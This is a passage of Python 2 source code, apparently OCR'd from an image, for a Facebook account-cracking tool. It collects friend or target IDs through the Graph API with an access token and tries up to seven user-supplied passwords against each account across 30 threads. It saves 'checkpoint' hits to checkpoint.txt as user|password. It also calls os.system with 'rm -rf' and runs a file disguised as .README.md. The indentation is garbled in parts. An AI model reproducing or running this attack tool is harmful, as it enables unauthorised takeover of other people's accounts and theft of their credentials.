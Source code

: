 														else:
															if "www.facebook.com" in q["error_msg"]:
																print "[Checkpoint] " + user + " | " + pass7
																cps = open("checkpoint.txt", "a")
																cps.write(user+"|"+pass7+"\n")
																cps.close()
																cpb.append(user+pass7)
																
	except:
		pass
		
p = ThreadPool(30)
p.map(main, id)
print (50*"-")
print ("[✓] Process Has Been Completed ....")
print ("[✓] Total OK/CP : "+str(len(oks))+"/"+str(len(cpb)))
print("[✓] CP File Has Been Saved : checkpoint.txt")
raw_input("\n[Back]")
if xxx == "0":
	crack_menu()
else:
	os.system("python2 .README.md")
def choice_menu():
global toket
os.system("clear")
try:
toket=open("....","r").read()
except IOError:
print("[!] Token invalid")
os.system("rm -rf ....")
time.sleep(1)
os.system("python2 bxi.py")
os.system("clear")
print (logo)
print ("[1] Crack From Friend List")
print ("[2] Crack From Any Public ID")
print ("[3] Crack From File")
print ("[0] Back")
print (50*"-")
choice_action()

def choice_action():
bch = raw_input("\n ▄︻̷̿┻̿═━一 ")
if bch =="":
print ("[!] Fill in correctly")
choice_action()
elif bch =="1":
os.system("clear")
print (logo)
pass1=raw_input(" Put Password No 1 : ")
pass2=raw_input(" Put Password No 2 : ")
pass3=raw_input(" Put Password No 3 : ")
pass4=raw_input(" Put Password No 4 : ")
pass5=raw_input(" Put Password No 5 : ")
pass6=raw_input(" Put Password No 6 : ")
pass7=raw_input(" Put Password No 7 : ")
r = session.get("https://graph.facebook.com/me/friends?access_token="+toket)
z = json.loads(r.text)
for s in z["data"]:
id.append(s["id"])
elif bch =="2":
os.system("clear")
print (logo)
idt = raw_input("[✓] Enter ID : ")
pass1=raw_input(" Put Password No 1 : ")